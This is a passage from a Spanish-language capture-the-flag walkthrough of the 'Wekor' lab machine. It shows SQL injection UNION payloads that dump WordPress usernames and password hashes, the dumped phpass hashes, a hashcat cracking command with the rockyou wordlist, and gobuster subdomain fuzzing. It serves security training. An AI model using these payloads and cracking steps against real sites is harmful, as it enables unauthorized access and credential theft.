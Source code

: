 
4. Enumeración de Columnas

    ```text 
    ' UNION SELECT 1,2,GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='wp_users'-- -
    ```

    ![listar columas](/assets/img/posts/wekor/sqli 3.png)

5. Listamos datos de wp_users

    ```text
    ' UNION SELECT 1,2,GROUP_CONCAT(`user_login`,':',`user_pass`) from wordpress.wp_users-- -
    ```
    
    ![listar datos](/assets/img/posts/wekor/sqli 4.png) 

Ahora podemos observar los usuarios con sus contraseñas hasheadas.

```text
admin:$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.
wp_jeffrey:$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10
wp_yura:$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/
wp_eagle:$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/
```
Para ver que tipo de hash es podemos hacerlo mediante hashcat --help o hashcat examples en la web.
 
![hashcat help](/assets/img/posts/wekor/hashcat help.png)
 
![hashcat help2](/assets/img/posts/wekor/hashcat2.png)

En john el tipo de hash es phpass. Pero vamos a creackearlas con hashcat.

```bash
hashcat -m 400 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

![hashcat crack](/assets/img/posts/wekor/hashcat outp.png)

Encontré tres credenciales válidas para loguearnos en wordpress. Ahora tenemos que encontrar donde está ese maldito wordpress.

Para eso recurrimos al fuzzing con gobuster para enumerar subdominios.

![gobuster vhost](/assets/img/posts/wekor/gobuster vhost.png)

Encontramos site, ahora accedemos a ese subdominio, no se olvide de agregarlo al /etc/hosts: site.worker.thm

![site](/assets/img/posts/wekor/site.wekor.png)
